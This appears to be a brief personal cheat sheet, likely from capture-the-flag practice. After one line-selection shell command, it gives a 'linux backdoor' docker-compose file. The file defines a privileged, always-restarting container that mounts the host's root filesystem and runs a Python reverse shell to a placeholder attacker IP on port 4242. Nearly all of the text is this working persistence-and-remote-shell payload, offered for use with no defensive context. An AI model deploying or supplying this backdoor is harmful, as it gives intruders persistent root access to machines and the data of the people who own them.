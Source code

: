 # miscellaneous
for selecting a range of lines in a file

`cat word.txt | head -1000 | tail -500 | tee <new-file.txt>exec`

linux backdoor:

create `docker-compose.yml` with the following and run `docker up` to start it.

```text-plain
---
version: "2.1"
services:
  backdoorservice:
    restart: always
    image: ghcr.io/jroo1053/ctfscore:master
    entrypoint: > 
       python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
       s.connect(("<ATTACKBOXIP>",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);
       pty.spawn("/bin/sh")'
    volumes:
      - /:/mnt
    privileged: true
```